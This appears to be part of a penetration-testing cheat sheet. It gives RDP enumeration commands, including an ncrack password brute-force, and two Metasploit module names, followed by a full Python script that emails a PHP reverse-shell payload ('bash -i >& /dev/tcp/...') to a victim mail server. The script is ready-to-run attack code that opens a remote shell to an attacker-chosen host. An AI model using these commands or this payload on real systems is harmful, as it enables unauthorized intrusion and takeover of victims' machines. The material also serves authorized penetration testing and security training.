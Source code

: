  ## Port 3389  (RDP)
 
Enumeration commands for Remote Desktop service;

    ncrack -vv --user administrator -P passwords.txt rdp://192.168.1.10,CL=1
    rdesktop 192.168.1.10

### Metasploit Modules for Remote Desktop service;

    auxiliary/scanner/rdp/ms12_020_check
    auxiliary/scanner/rdp/rdp_scanner 

## Sending email with python exploit in it
            
        from email.mime.multipart import MIMEMultipart
        from email.mime.text import MIMEText
        import smtplib
        import sys

        lhost = "127.0.0.1"
        lport = 443
        rhost = "192.168.1.1"
        rport = 25 # 489,587

        # create message object instance
        msg = MIMEMultipart()

        # setup the parameters of the message
        password = "" 
        msg['From'] = "attacker@local"
        msg['To'] = "victim@local"
        msg['Subject'] = "This is not a drill!"

        # payload 
        message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

        print("[*] Payload is generated : %s" % message)

        msg.attach(MIMEText(message, 'plain'))
        server = smtplib.SMTP(host=rhost,port=rport)

        if server.noop()[0] != 250:
            print("[-]Connection Error")
            exit()

        server.starttls()

        # Uncomment if log-in with authencation
        # server.login(msg['From'], password)

        server.sendmail(msg['From'], msg['To'], msg.as_string())
        server.quit()

        print("[***]successfully sent email to %s:" % (msg['To']))  
